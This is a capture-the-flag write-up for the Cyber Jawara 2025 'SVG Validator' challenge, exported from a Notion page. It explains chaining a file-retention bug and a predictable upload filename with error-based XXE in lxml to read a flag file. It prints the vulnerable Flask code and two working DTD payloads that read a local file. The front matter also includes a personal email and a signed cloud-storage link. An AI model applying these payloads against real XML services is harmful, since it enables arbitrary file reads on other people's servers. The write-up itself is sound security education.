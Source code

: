 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466TMOP7QBP%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T092220Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJHMEUCIC%2FRtrO6Ltf7enzZ2Dq6khKe1ZM1fgH87ejpilOpxxREAiEAqpgllmnULZdHokNTdlcQI1bB1uPq1F6ddSFiE6sU1BwqiAQI6v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDP%2BVQ%2FURQBjTVTUO3ircA%2BhBm0Fy3cSGnShUjQQHz4G7GVRUiytMV0SwEiBUBMjsw1zQ9Q%2BVeheZ1djpC84su7wYz7C9oQ7VfDwqgMSz%2BdtC1j%2FCzGVvoZwbMqQFCKHplGiOTDTiNa253UbyI91ktYoamYIjxE7IND%2BX7JlGFbZtrJ3Fs0yTNls4S5PwLaIIZhFf%2FSzFz92MqteNZC0itmOJjRNpkb0L6Hjqk5aMkGE9vQe%2B%2B3oDh9hAnmRt0dYh2sDlzJyesQE2zzkvEaKR%2FDIcgF48fPhHJRUO7EC4iY5RiTgnECmMAcN%2B71mSoks5CUUfWooyCpD%2Fs5%2F2yq%2BSqNKwoLrqqppv45XafLCn%2F5QQt84wUQd46Sa5jrCrqeCEpNleXa1VHNTM7fYY8MIYhuZMu5aRo%2Bf0g0fg1ua0X8j%2FhacTvzdND19lGKmfvCANk%2FHp2GoX1McneCms%2F6jiwS%2FaLr5oWXbmOk9JwECUq05u9Ja5BezKgbIlTuzV7H1CLKFvbqWwmdyu4XU4nFuyBbdFuy5u8srYFrOAc5wpyePimsolCpINfnuIxNYHL0x%2BuPzZeKZ2OnzjNy7%2FZB6IOVrovT%2BCUXjz3jWOT3VsnjSIoawJqT0cjsDxNv7ZLuqUQPHuirTFyd6YHW3iMN7xwMEGOqUBcpGbongZkZUbOgqnDp7tPnXG0l5tI%2FCXj1wDd3mWIFy2EO%2F1lebsK5g%2BMGzkvf0KsCvHlORo2HgMTNWkA14DgEvej%2BWFW%2Fn0jyHOoidgEo1PYfk8gTmXWf1ZFf2rugzmwT%2FGcPW1Fq0eVm6wY%2Bqz5fe5qZQd8o3EKvKB7JMMxXTdHuvhm3a6mkQbqAd%2BSpegHzaOjJTBs1H1LSXnNtjoAk%2Bqm7Eq\&X-Amz-Signature=347c848a7b1f95163c721a1b5cc1200193766e5886d17540f37826b5b2919287\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
